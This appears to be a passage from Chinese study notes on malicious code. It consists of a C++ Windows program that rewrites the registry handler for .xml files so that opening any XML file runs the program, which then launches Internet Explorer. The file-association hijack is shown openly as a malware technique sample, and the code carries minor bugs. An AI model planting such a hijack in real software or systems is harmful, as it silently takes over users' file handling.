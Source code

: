 ```cpp
#include<windows.h>

int ModifyRegKey()
{
	HKEY hKey = NULL;
	RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("xmlfile\\shell\\Open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS;
	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS){
		nRet = 1;
		MessageBox(NULL, strPath, TEXT("notice"), MB_OK);
	}
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	int ret = ModifyRegKey();
	
	TCHAR strDir[260] = { 0 };
	TCHAR strPath[260] = { 0 };

	GetSystemDirectory(strDir, 260);
	wsprintf(strPath, TEXT("C:\\Program Files\\Internet Explorer\\iexplore.exe"), strDir);
	GetCurrentDirectory(260, strDir);
	MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
	HWND hDesk = GetDesktopWindow();
	ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);
	return 0;
}
```

然后我们发现这个xml真的逊

![image-20220520181724954](恶意代码.assets/image-20220520181724954.png)
